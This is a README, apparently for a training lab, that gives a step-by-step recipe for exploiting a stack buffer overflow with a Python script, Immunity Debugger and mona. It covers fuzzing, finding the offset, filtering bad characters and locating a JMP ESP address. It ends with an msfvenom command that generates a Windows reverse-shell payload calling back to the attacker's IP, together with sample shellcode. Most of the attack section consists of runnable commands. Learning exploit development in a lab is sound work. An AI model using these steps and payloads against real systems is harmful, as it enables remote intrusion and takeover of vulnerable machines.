 # Stack-Buffer-Overflow

![image](https://user-images.githubusercontent.com/41350723/173417707-2753ae6f-1bb2-4858-a1a5-a38d7cdc1fb4.png)


## Before you begin.
* Start the vulnerable app via Immunity Debugger or attach it to Immunity 
* Change IP and Port in bof.py
* Connect using netcat and see if you get a banner or an options menu.
* If you do, uncomment s.receive(1024) on line 52.
* If you have to prefix your buffer value with a command, set prefix value otherwise leave it as empty string.
* If after sending a command if you get any kind of reply, uncomment s.receive(1024) on line 55.

![image](https://user-images.githubusercontent.com/41350723/173417177-d499ac6e-a14c-4108-a075-836d1023b784.png)

##  Option 1 -- Fuzzer
* Execute and make a note of the largest number of bytes that were sent.
* Generate a cyclic pattern of same length as the bytes that crashed the server.
  
  `msf-pattern_create -l <Bytes>`

* Paste the cyclic string into payload variable in bof.py
* Restart the app in Immunity Debugger
    
## Option 2 -- Get Offset
* Restart the app in Immunity Debugger
* Execute Option 2
* In Immunity Debugger, run the following mona command

    `!mona findmsp -distance <bytes>`    ( Change to same length as the pattern )

* In the output you should see a line which states:

    `EIP contains normal pattern : ... (offset XXXX)`

* Update bof.py and set the offset variable to this value

## Option 3 -- Verify Offset
* Restart the app in Immunity Debugger
* Execute Option 3
* The EIP register should now have 4 B's (i.e. 42424242).

## Option 4 -- Generate BadChars
* Generate a bytearray using mona, and exclude the null byte (\x00).

    `!mona bytearray -b "\x00"`

* Note-down the path of the bytearray.bin
* Execute Option 4 to generate a string of bad chars that is identical to the bytearray
* Update bof.py and change the payload variable to this string

## Option 5 -- Check BadChars
* Restart the app in Immunity Debugger
* Execute Option 5
* Make a note of the ESP register address and use it in the following mona command:

    `!mona compare -f C:\Address\To\bytearray.bin -a <address>` <-- modify path and ESP address

* A popup should appear labelled "mona Memory comparison results".
  * The first badchar in the list should be the null byte (\x00).
  * Make a note of any others.
* Generate a new bytearray in mona including these new badchars along with \x00.
    
    `!mona bytearray -b "\x00"   <-- Add the other badchars`

* In bof.py remove the new badchars from paload variable.
* Restart the app in Immunity Debugger
* Run Option 5 again
* Run the mona command agian (Check ESP register address again, it might have changed)

    `!mona compare -f C:\Address\To\bytearray.bin -a <address>`    <-- modify path and ESP address

* Repeat these steps until the results status returns "Unmodified"

## Option 6 -- Exploit
* With the Application either running or in a crashed state, run one of the following mona commands.
Make sure to add all the badchars you identified (including \x00):
  
  * Find JMP ESP - inside the main executable
	  
    `!mona jmp -r esp -cpb "\x00"`    <-- Add the other badchars identified
	    
  * Find JMP ESP - inside one of the DLLs
	  
    `!mona modules`
    * We need to find a .dll were Rebase, SafeSEH, ASLR, NXCompat are set to False. When you find it, run the command below to search for a JMP ESP (FFE4), inside the dll.
	
	  `!mona find -s "\xff\xe4" -m <DLL-NAME> -cpb "\x00"`    <-- Add the other badchars
	  
      or
	
      `!mona find -s 'jmp esp' -type instr -m <DLL-NAME> -cpb "\x00"`    <-- Add the other badchars
      
    * This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window.
  * Choose an address and update bof.py by setting the "EIP" variable to the address, written backwards (ittle endian).
    
    `For example if the address is 01020304 in Immunity, write it as EIP = "\x04\x03\x02\x01" in bof.py.`

* Run the follwing msfvenom command to generate a reverse shell
    
    `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c`       <-- Add the other badchars

* Update bof.py by pasting the generated C code strings into shellcode variable using the following notation:
    ```
    shellcode = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
    "\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
    ...
    "\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
    "\x19\x53\xd0\x92\x19\x53\x2e\x1d")
    ```
      Notice there is no semicolon ; at the end
* Adjust the nopsled variable if needed
* Execute Option 6 after setting up a listner in kali

